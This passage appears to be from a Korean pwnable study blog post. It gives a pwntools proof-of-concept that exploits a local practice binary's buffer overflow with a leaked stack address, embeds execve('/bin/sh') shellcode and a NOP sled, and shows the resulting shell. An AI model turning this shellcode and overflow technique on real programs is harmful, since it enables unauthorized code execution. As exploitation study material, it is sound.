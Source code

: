 이번엔 간G나게 python의 pwntool로 shell을 획득해보자.

아래는 python으로 작성된 poc 코드이다

```python
from pwn import *

p = process("./test")

p.recvuntil("buf[50] address : ")
bufAddress = p.recvuntil("\n")
bufAddress = int(bufAddress, 16)

up_bufaddr = p64(bufAddress + 0x8)
down_bufaddr = p64(bufAddress - 0x8)

exploit = up_bufaddr
exploit += '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
exploit += "\x90"*29
exploit += down_bufaddr #'\xd0\xe4\xff\xff\xff\x7f\x00\x00'
exploit += '\x73\x05\x40\x00\x00\x00\x00\x00'

p.send(exploit)
p.interactive()


```

```
universe:~/pwnable $ python poc.py 
[+] Starting local process './test': pid 29964
[*] Switching to interactive mode
$ ls
code         code.c
$ 
```

---

### 0x05 Reference
[https://www.lazenca.net/pages/viewpage.action?pageId=12189944](https://www.lazenca.net/pages/viewpage.action?pageId=12189944)
[https://d4m0n.tistory.com/88](https://d4m0n.tistory.com/88)
